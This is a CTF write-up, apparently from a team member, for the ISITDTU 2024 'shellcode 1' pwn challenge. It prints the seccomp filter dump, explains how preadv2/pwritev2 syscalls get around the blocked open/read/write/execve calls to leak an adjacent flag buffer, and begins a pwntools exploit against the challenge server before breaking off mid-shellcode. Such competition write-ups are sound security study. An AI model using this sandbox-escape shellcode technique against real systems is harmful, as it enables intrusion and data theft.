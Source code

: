 # Isitdtuctf2024_qual

I participated in ISITDTU 2024 CTF Qual as part of the Megaricano team. As you can see from my previous posts, The Megaricano team is made up of Raon Secure Core Research Team members.

Anyway, I focused on Pwn challenge. Here is All pwn chal write-up.

# Pwn
## shellcode 1
### Analysis
It'a Shellcoding Challenge with a seccomp filter.

```
#  line  CODE  JT   JF      K
# =================================
#  0000: 0x20 0x00 0x00 0x00000004  A = arch
#  0001: 0x15 0x00 0x0a 0xc000003e  if (A != ARCH_X86_64) goto 0012
#  0002: 0x20 0x00 0x00 0x00000000  A = sys_number
#  0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
#  0004: 0x15 0x00 0x07 0xffffffff  if (A != 0xffffffff) goto 0012
#  0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
#  0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
#  0007: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0012
#  0008: 0x15 0x03 0x00 0x0000003b  if (A == execve) goto 0012
#  0009: 0x15 0x02 0x00 0x000000f0  if (A == mq_open) goto 0012
#  0010: 0x15 0x01 0x00 0x00000101  if (A == openat) goto 0012
#  0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
#  0012: 0x06 0x00 0x00 0x00000000  return KILL
```
`open`, `read`, `write`, `execve` syscall is blocked.
However, this can be easily bypassed with the `preadv2`, `pwritev2` syscalls.

Analyze the Challenge binary, you can see that it reads the contents from the flag file and copies them to the memory allocated with `mmap`. After that, it allocates executable memory again with mmap, copies the user's shellcode, and executes it.

Since the memory area where the flag contents are stored is adjacent, I gave a huge number as an argument to `pwritev2` and was able to obtain the flag from the output.

### Exploit
```py
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h']

# p = process("./challenge")
p = remote("152.69.210.130", 3001)

p.recvuntil(b": ")
libc_base = int(p.recvline().strip(),16) - 0x606f0 # need to change?
log.info(f"libc_base: {hex(libc_base)}")

sc =  '''
mov rax, 0x147
mov rdi, 3
mov r10, rdx
mov rdx, 0x1
mov [rsi], rdx
addq [rsi], 0x8
mov [rsi+0x8], r10
```
